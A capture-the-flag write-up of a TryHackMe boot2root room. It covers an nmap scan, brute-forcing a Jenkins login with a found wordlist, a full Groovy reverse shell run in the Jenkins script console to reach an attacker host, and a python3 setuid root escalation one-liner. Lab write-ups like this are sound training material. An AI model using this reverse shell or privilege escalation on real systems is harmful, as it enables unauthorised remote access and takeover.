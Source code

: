 ```yaml
---
title: Cyber Grabs CTF 0x03 – boot2root
date: '2022-02-07'
draft: false
authors: ['thebish0p']
tags: ['Cyber Grabs CTF 0x03', 'Web', 'Jenkins', 'Shell', 'System Access', 'Privilege Escalation']
summary: 'Bruteforce Jenkins login page with a wordlist we find leading to system access and proceeding by escalating to Root'
---
```


## boot2root

> by MrGrep
>
> Let's Start!!! Alison is a SOC analyst of TheCyberGrabs Pvt Ltd. He got some alerts that someone is trying to access the server but he is not quite sure how that attack is getting executed so he wants to hire some pentesters to check the security can you help alison?
>
> Visit here to play:- [TryHackMe Room](https://tryhackme.com/jr/cybergrabsctf2022)
>
> Flag Format: `cybergrabs{boot2root}`

This challenge was hosted on [TryHackMe](https://tryhackme.com/). We launch an instance and start by running an nmap quick scan on the machine’s IP address to check for open ports:

```
nmap -T4 -A -F 10.10.156.214
```

```
Host is up (0.16s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   closed ftp
80/tcp   open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: CyberGrabs Jr CTF
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
8080/tcp open   http    Jetty 9.4.43.v20210629
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-server-header: Jetty(9.4.43.v20210629)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

We start by browsing port 80 checking common files like `robots.txt` and we can find 2 interesting files:

![robots.txt](/static/images/cyber-grabs-ctf-0x03/robots.png)

As shown below `s3cret` is a wordlist and `confidential` is actually just random data encoded with Base32 with nothing useful for the challenge:

| ![s3cret](/static/images/cyber-grabs-ctf-0x03/s3cret.png) |
| :-------------------------------------------------------: |
|                         _s3cret_                          |

| ![confidential](/static/images/cyber-grabs-ctf-0x03/confidential.png) |
| :-------------------------------------------------------------------: |
|                            _confidential_                             |

| ![confidential decoded](/static/images/cyber-grabs-ctf-0x03/dec_confidential.png) |
| :-------------------------------------------------------------------------------: |
|                               _Base32 decoded data_                               |

We try running several wordlists using dirbuster but we don’t find any other directories on port 80.

We proceed by going to port 8080 which had a Jenkins login page.

![Jenkins](/static/images/cyber-grabs-ctf-0x03/jenkins.png)

First idea we had was using the wordlist provided in `s3cret` to bruteforce the login page. Jenkins default username is `admin` so we start by bruteforcing that user. Unfortunetaly that idea didn’t work.

After a lot of trial and error we go back to the challenge description and notice that the name `Alison` is mentioned so we decided to try it as a username and bruteforce it again with the `s3cret` wordlist:

![Bruteforce Burp](/static/images/cyber-grabs-ctf-0x03/burp_bf.png)

We finally found the password `elizabeth1`.

We proceed by logging in to Jenkins:

![Logged in](/static/images/cyber-grabs-ctf-0x03/logged_in.png)

We proceed by going to the script console in order to have a reverse shell on the server as shown below:

```Groovy
String host="10.11.60.43";;
int port=4444;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close()
```

![Script Console](/static/images/cyber-grabs-ctf-0x03/script_console.png)

And now we have a shell:

![First shell](/static/images/cyber-grabs-ctf-0x03/first_shell.png)

We continue by stabilising the shell using `stty` as shown below:

![Stable](/static/images/cyber-grabs-ctf-0x03/stable.png)

And we manage to find the first flag in `/home/mrgrep/user.txt`. A Base32 encoded flag:

![User.txt](/static/images/cyber-grabs-ctf-0x03/user.txt.png)

![Decoded user.txt](/static/images/cyber-grabs-ctf-0x03/decoded_user.txt.png)

For the second part of the challenge, we need to get root access in order to read the `root.txt` file.

We notice that python has setuid capabilities by running `getcap`:

![getcap](/static/images/cyber-grabs-ctf-0x03/getcap.png)

This means that we can use python in order to perform a privilege escalation and get full root access by running `./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`:

![Priv Escalation](/static/images/cyber-grabs-ctf-0x03/privesc.png)

Finally, we have root access and we can read the `root.txt` and get the final flag:

![Root](/static/images/cyber-grabs-ctf-0x03/rootflag.png)
